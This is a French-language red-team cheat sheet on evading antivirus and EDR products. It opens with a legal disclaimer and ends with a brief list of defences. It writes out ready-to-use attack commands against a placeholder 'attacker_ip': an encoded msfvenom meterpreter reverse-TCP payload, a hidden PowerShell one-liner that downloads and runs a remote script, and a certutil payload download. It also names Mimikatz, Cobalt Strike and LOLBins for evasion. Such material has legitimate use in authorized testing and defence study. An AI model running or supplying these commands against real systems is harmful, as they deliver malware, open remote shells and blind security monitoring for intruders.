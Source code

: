 # Contournement d'EDR/AV (Antivirus et Endpoint Detection & Response)

> ⚠️ **Avertissement légal et éthique** :
> Les techniques décrites ici sont à but pédagogique et doivent être utilisées uniquement dans un environnement de test ou avec une autorisation explicite. Toute utilisation non autorisée est illégale et répréhensible.

## Qu'est-ce qu'un EDR/AV ?
- **AV (Antivirus)** : Logiciel qui détecte les virus connus (signatures, heuristiques).
- **EDR** : Solution avancée qui surveille le comportement, bloque les attaques, et alerte les admins.

## Pourquoi les contourner ?
- Pour tester la robustesse d'un système (Red Team, pentest)
- Pour comprendre comment les attaquants procèdent

## Techniques courantes de contournement

### 1. **Encodage et obfuscation de payloads**
- Utiliser `msfvenom` avec des encoders :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > shell-encoded.exe
```
- Changer le format, splitter le payload, utiliser des packers (UPX, etc.)

### 2. **Attaques fileless (sans fichier sur disque)**
- Exécuter du code directement en mémoire (PowerShell, .NET, LOLBins)
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker_ip/payload.ps1')"
```
- Utiliser des outils comme `Invoke-Mimikatz` ou `Cobalt Strike Beacon`

### 3. **Living Off The Land (LOLbins)**
- Utiliser des binaires système pour exécuter du code malveillant
```powershell
certutil -urlcache -split -f http://attacker_ip/payload.exe payload.exe
```
- Exemples : `regsvr32`, `mshta`, `wmic`, `rundll32`

### 4. **Bypass UAC et élévation de privilèges**
- Exploiter des failles de configuration ou des binaires signés

## Bonnes pratiques de défense
- Mettre à jour les signatures et les règles comportementales
- Surveiller les outils natifs utilisés de façon anormale
- Restreindre les droits d'exécution

## Pour aller plus loin
- [PayloadsAllTheThings - AV Evasion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/AV%20Evasion)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [Red Team OPSEC](https://www.ired.team/offensive-security/defense-evasion)

*Cette fiche est évolutive. Propose des ajouts si tu découvres de nouvelles techniques !* 